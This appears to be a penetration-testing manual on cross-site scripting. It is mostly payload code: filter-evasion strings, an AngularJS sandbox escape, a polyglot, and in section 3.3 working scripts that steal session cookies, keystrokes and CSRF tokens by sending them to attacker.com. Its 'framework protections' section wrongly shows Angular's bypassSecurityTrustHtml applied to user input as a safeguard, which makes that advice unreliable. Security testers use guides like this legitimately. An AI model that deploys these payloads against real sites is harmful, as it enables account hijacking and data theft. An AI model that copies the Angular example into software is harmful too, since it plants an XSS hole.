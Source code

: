 Advanced XSS Testing Manual

# Advanced XSS Testing Manual

## Comprehensive Guide to DOM-Based, Reflected, and Stored XSS

## 1\. DOM-Based XSS Deep Dive

### 1.1 Methodology

1.  **Source Identification**
    *   `document.location` (URL fragments)
    *   `window.name`
    *   `document.referrer`
    *   `postMessage` events
    *   Web Storage (localStorage/sessionStorage)
2.  **Sink Analysis**
    
    | Sink Type | Dangerous Methods | Example Payload |
    | --- | --- | --- |
    | HTML Injection | `innerHTML, outerHTML, document.write()` | `<img src=x onerror=alert(1)>` |
    | JS Execution | `eval(), setTimeout(), Function()` | `';alert(1);//` |
    | jQuery | `$(), html(), append()` | `<img src=x onerror=alert(1)>` |
    

### 1.2 Advanced Testing Techniques

#### HTML Sink Testing

1\. Inject: window.name = "xss\_test\_"+Math.random().toString(36).substr(2,8);
2. Open Chrome DevTools → Elements tab
3. Search DOM (Ctrl+F) for your test string
4. Analyze context:
   - Inside attributes? Try: " autofocus onfocus=alert(1) x="
   - Inside HTML? Try: <svg onload=alert(1)>
   - Inside script? Try: '-alert(1)-'

#### JavaScript Sink Testing

1\. Search all JS files (Ctrl+Shift+F) for:
   - location.hash
   - document.cookie
   - window.name
2. Set breakpoints in suspicious sinks
3. Trace variable flow through execution
4. Test progressive payloads:
   - Basic: alert(1)
   - Context-aware: '-alert(1)-'
   - Filter evasion: alert\`1\`

### 1.3 Framework-Specific Vulnerabilities

#### AngularJS XSS

<div ng-app>
  {{constructor.constructor('alert(1)')()}}
</div>

#### jQuery XSS

// Classic hashchange exploit
<iframe src="https://vulnerable.com#" onload="this.src+='<img src=x onerror=alert(1)>'">

## 2\. Reflected XSS Mastery

### 2.1 Context-Specific Payloads

| Context | Payload | Bypass Technique |
| --- | --- | --- |
| HTML Text | `<script>alert(1)</script>` | Case variation: <ScRiPt> |
| HTML Attribute | `" onmouseover=alert(1) x="` | New events: onpointerenter |
| JavaScript String | `'-alert(1)-'` | Template literals: \`${alert(1)}\` |
| URL Context | `javascript:alert(1)` | Data URI: data:text/html,<script>alert(1)</script> |

### 2.2 Advanced Filter Evasion

// Chrome XSS Auditor Bypass
<script>
location.href = 'javascript:alert%281%29';
</script>

// UTF-7 Bypass (IE)
+ADw-script+AD4-alert(1)+ADw-/script+AD4-

// JavaScript Obfuscation
eval('al'+'ert(1)');
window\['al'+'ert'\](1);

## 3\. Stored XSS Professional

### 3.1 Entry Point Discovery

*   **User Content**: Comments, profiles, uploads
*   **Metadata**: Filenames, EXIF data
*   **API Responses**: JSON/XML responses
*   **Admin Features**: Logs, moderation queues

### 3.2 Advanced Persistence Techniques

// SVG XSS
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>

// PDF Embedded JS
/Names <</JavaScript <</Names \[(alert(1))\]>>>>

// HTML5 Storage
<script>
localStorage.setItem('xss', '<img src=x onerror=alert(1)>');
location.reload();
</script>

### 3.3 Impact Escalation

// Session Hijacking
document.location='https://attacker.com/?cookie='+document.cookie;

// Keylogger
document.onkeypress = function(e) {
    new Image().src='https://attacker.com/?k='+e.key;
};

// CSRF Token Theft
fetch('/account')
    .then(r => r.text())
    .then(t => {
        let token = t.match(/csrfToken = '(.\*?)'/)\[1\];
        new Image().src='https://attacker.com/?token='+token;
    });

## 4\. XSS Prevention Checklist

### 4.1 Defense Mechanisms

| Technique | Implementation | Effectiveness |
| --- | --- | --- |
| Content Security Policy | `Content-Security-Policy: default-src 'self'` | High (when properly configured) |
| Input Validation | Whitelist allowed characters | Medium (context-dependent) |
| Output Encoding | HTML Entity Encoding: &lt;script&gt; | High (when context-aware) |
| Secure Cookies | `Set-Cookie: HttpOnly; Secure` | Mitigates impact |

### 4.2 Framework Protections

// React (JSX auto-escapes)
<div>{userInput}</div>

// Angular (sanitization)
import { DomSanitizer } from '@angular/platform-browser';
this.safeHtml = this.sanitizer.bypassSecurityTrustHtml(userInput);

// Vue (v-html directive)
<div v-html="sanitizedContent"></div>

## 5\. Professional Testing Tools

### 5.1 Automated Scanning

*   **Burp Suite**: DOM Invader extension
*   **ZAP**: Active scanner with XSS rules
*   **XSStrike**: Advanced detection engine

### 5.2 Manual Testing Utilities

// XSS Polyglot
javascript:/\*--></title></style></textarea></script><xmp><svg/onload='+/"/+/onmouseover=1/+/\[\*/\[\]/+alert(1)//'>

// Cheatsheets
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

**Legal Note:** Always obtain proper authorization before testing. This guide is for educational purposes only.

Last updated: 2023-11-15 | Based on OWASP Top 10 2021
